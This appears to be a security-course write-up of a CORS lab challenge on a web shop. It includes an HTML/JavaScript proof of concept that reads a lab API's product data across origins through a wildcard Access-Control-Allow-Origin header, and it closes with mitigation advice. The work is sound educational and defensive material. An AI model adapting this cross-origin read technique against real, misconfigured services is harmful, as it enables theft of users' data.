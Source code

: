 # Cowbell Shop 9 - CORS

## Challenge

Cross Origin Requests \(CORS\) vs. Same-Origin-Policy \(SOP\).

## Answer

### Explain the security problem  

* CORS is a mechanism to bypass the Same Origin Policy  
* Websockets are not subordinated to CORS 
* CORS Attack Scenarios
  * Stealing Data
  * CSRF the easy way



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Open Cowbell Web Shop and Theia WEB IDE

Step 2\) Change `change_me.html ,` add the URL and open the URL `https://7bc7e2f3-df76-477a-ac25-72b285312f0e.idocker.vuln.land/change_me.html`

{% code title="" %}
```markup
<!DOCTYPE html>
<html lang="en">

<head>
	<meta charset="UTF-8">
	<title>Glocken Emil's Product API</title>
</head>

<body>
	<div id="root">
		<h1>Glocken Emil's Product API</h1>
	</div>
    Execute Script
	<script>
		const app = document.getElementById('root'); 
        const container = document.createElement('div'); 
        app.appendChild(container); 
        var request = new XMLHttpRequest(); 
        request.open('GET', 'https://6522250e-5430-4dd6-a964-d0cf675baf91.idocker.vuln.land/api/product', true); 
        request.onload = function () { var data = JSON.parse(this.response); 
            data = data.data.products; 
            if (request.status >= 200 && request.status < 400) 
            { 
                data.forEach(product => { const card = document.createElement('div'); 
                    const h3 = document.createElement('h3'); 
                    const p1 = document.createElement('p'); 
                    const p2 = document.createElement('p'); 
                    const p3 = document.createElement('p'); 
                    h3.textContent = product.name; 
                    p1.textContent = "Category: " + product.category.name; 
                    p2.textContent = "Price: " + product.price; 
                    p3.textContent = "Size: " + product.size; 
                    container.appendChild(card); 
                    card.appendChild(h3); 
                    card.appendChild(p1); 
                    card.appendChild(p2); 
                    card.appendChild(p3); 
                }); 
            } 
    }
    request.send(); 
	</script>
    End Script
</body>

</html>
```
{% endcode %}

![](../../.gitbook/assets/image%20%28369%29.png)

Step 3\) See in the DevTools that the HTTP Response header from `/api/product` has the following:

`Access-Control-Allow-Origin: *` 

![](../../.gitbook/assets/image%20%28371%29.png)



### Explain mitigation \(remedy\)

* The most secure is not to set any  `Access-Control-Allow-Origin`

  on the server at all

* Second set the value never to `*` , instead specify a for you trusted host
* =&gt; In this challenge remove or adjust the HTTP Response header 

  * `Access-Control-Allow-Origin`

  from the `/api/product` API 



## Solution

### Was a preflight request required? why yes or no?

No, there was no preflight \(`OPTIONS`\) request since it was a `GET`-Request  \(see `change_me.html`\) and a `GET`-Request qualifies as a "Simple Request". See [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS\#simple\_requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests)

#### Did the server set a proper Access-Control-Allow-Origin response header?

No, the servers HTTP Response header was set to `Access-Control-Allow-Origin: *` 

=&gt; See mitigation above

